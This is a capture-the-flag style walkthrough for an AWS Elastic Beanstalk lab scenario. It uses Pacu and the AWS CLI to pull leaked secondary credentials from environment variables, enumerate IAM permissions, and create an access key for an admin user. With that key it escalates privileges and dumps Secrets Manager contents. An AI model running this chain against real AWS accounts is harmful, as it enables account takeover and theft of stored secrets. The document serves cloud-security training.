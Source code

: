 # Beanstalk Secrets Walkthrough

## Summary

In this scenario, you are provided with low-privileged AWS credentials. Your task is to enumerate Elastic Beanstalk applications and environments, discover misconfigured environment variables that leak secondary credentials, and then use these credentials to enumerate IAM permissions. By exploiting the ability to create an access key for an administrator user, you will escalate your privileges and ultimately retrieve the final flag stored in AWS Secrets Manager.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an AWS Access Key ID and Secret Access Key for the low-privileged user. Configure your AWS CLI profile with these credentials:

```bash
aws configure --profile beanstalk
```

You will be prompted for the Access Key, Secret Key, Region, and output format. For example:

```bash
AWS Access Key ID: AKIA2HV********
AWS Secret Access Key: v+xInRa11dSj**************
Default region name: us-east-1
Default output format: json
```

Verify your access:

```bash
aws sts get-caller-identity --profile beanstalk
```

### Enumerating Elastic Beanstalk

Use Pacu to enumerate Elastic Beanstalk applications and environments:

```bash
Pacu (beanstalk:imported-beanstalk) > run elasticbeanstalk__enum --region us-east-1
```

The module will list available applications and environments. Notice the misconfigured environment where environment variables reveal secondary credentials.

### Checking Permissions with Pacu

Next, assess the permissions of the low-privileged user by enumerating available IAM actions:

```bash
Pacu (beanstalk:imported-beanstalk) > run iam__bruteforce_permissions --region us-east-1
```

Review the output to understand the limited permissions available on Elastic Beanstalk and IAM.

### Switching to the Secondary User

The Elastic Beanstalk environment stores secondary credentials in its environment variables. Use these credentials to configure a new AWS CLI profile:

```bash
aws configure --profile beanstalk2
```

Verify the secondary user’s access:

```bash
aws sts get-caller-identity --profile beanstalk2
```

### Enumerating IAM with the Secondary User

With the secondary credentials, enumerate IAM permissions:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__enum_permissions
```

This will display additional IAM permissions, including the ability to create an access key for other users.

### Privilege Escalation with CreateAccessKey

Run the privilege escalation scan in Pacu to identify exploitable methods:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --scan-only
```

Notice that the `CreateAccessKey` method is confirmed as a viable escalation vector. Now execute the method to target the administrator user:

```bash
Pacu (beanstalk2:imported-beanstalk2) > run iam__privesc_scan --user-methods CreateAccessKey
```

Follow the prompts to select the admin user. Pacu will then generate a new access key for the admin user and display the credentials.

### Configuring the Admin Profile

Using the new admin credentials, set up an AWS CLI profile:

```bash
aws configure --profile admin
```

Enter the provided admin Access Key ID and Secret Access Key. Confirm access:

```bash
aws sts get-caller-identity --profile admin
```

### Retrieving the Final Flag

Finally, with admin privileges, run the secrets enumeration module to retrieve the final flag:

```bash
Pacu (beanstalk3:imported-admin) > run secrets__enum --region us-east-1
```

Check the downloaded secrets in the Pacu output directory (typically under `~/.local/share/pacu/<session>/downloads/secrets/`). For example:

```bash
cat ~/.local/share/pacu/beanstalk3/downloads/secrets/secrets_manager/secrets.txt
```

The file should contain the final flag, for example:  
`FLAG{*********************}`
